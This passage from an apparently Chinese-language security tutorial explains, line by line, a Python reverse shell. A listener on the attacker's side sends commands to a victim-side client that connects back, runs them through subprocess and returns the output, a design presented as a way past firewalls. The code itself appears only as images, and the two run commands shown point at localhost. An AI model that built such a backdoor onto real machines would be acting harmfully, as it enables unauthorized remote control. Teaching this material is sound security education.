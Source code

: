 前面介绍过，攻击者并不会主动连接受控服务器，因为会被受控制服务器的防火墙拦截。<br>
但是我们可以把自身当成服务器，让受控服务器作为客户端反向连接我们，然后向客户端发送命令。客户端与服务端安装套接字实现反向连接的代码如下：

[![](https://p4.ssl.qhimg.com/t0111a35e41304e6bb9.png)](https://p4.ssl.qhimg.com/t0111a35e41304e6bb9.png)

让我们分解以上代码，逐行解释每段代码的作用：
- 整体思路：声明subprocess模块中的sp函数执行命令
- 1）监听信息：通过获取命令行参数得到套接字监听的主机IP、端口
- 2）套接字部分：安装套接字，绑定套接字，监听连接、接收客户端的连接
- 3）输出连接信息：如果有网络连接信息，就打印出来
- 4）循环部分：将脚本运行到一个while循环中，以便发送命令并接收输出5）if判断-1： 如果输入的命令不是”exit()”程序继续运行，否则发送给客户端”exit()”,让客户端关闭套接字连接
- 6）if判断-2：如果输入的命令是空的，我们再次跳过while循环。不执行后面的命令
- 7）发送、接收命令：如果if判断没有执行退出或者跳过，则负责发送和接收命令
- 8）处理接收结果：将接收的数据和数据实际大小切割开来存放
- 9）处理数据：如果接收的数据实际大小跟接收数据的大小不匹配，那就运行一个while循环把剩余的数据拼接起来，直到数据实际大小跟接收数据结果相等
- 10）打印结果过滤换行符
- 11）出现异常则关闭套接字
以上代码理解起来并不困难，但是随着代码的复杂度不会再逐行解释，只解释重要的部分。接下来让我们编写客户端的Socket部分。

### <a class="reference-link" name="1.2%20%E5%AE%A2%E6%88%B7%E7%AB%AF%E4%BB%A3%E7%A0%81%E7%BC%96%E5%86%99(%E5%8F%97%E6%8E%A7%E5%88%B6%E7%AB%AF)"></a>1.2 客户端代码编写(受控制端)

受害者连接我们的代码不应该太多。

[![](https://p5.ssl.qhimg.com/t0190eea59f36b76f56.png)](https://p5.ssl.qhimg.com/t0190eea59f36b76f56.png)

让我们分解以上代码，逐行解释每段代码的作用：
- 1）通过sys.argv模块的命令行接受Socket套接字信息
- 2）设置Socket套接字并连接到指定的主机IP、端口。
- 3）接收服务器发送的命令的部分放在一个循环语句内。
- 4）如果接收的命令不是exit()，就通过管道执行接收的命令。执行命令后的输出分配给变量sh。
- 5）（out,err）是标准的stdout和stderr流。
- 6）将流的输出分配给result变量。
- 7）将文件大小设置为16字节的long型，用于助服务器端（攻击者）识别文件大小。
- 8）计算长度并将其附加到输出里。
if-else后的部分：如果收到的命令是exit()，跳出循环和关闭连接。

执行我们的攻击者（服务器）脚本，看看结果如下：

```
root@Sploit:~/Desktop# python reverseTcp.py '' 8000
```

客户端连接命令行的主机信息。

```
root@Sploit:~/Desktop# python connect.py 127.0.0.1 8000
```

服务器脚本运行的截图：

[![](https://p3.ssl.qhimg.com/t017a7c2d5f1c979741.png)](https://p3.ssl.qhimg.com/t017a7c2d5f1c979741.png)
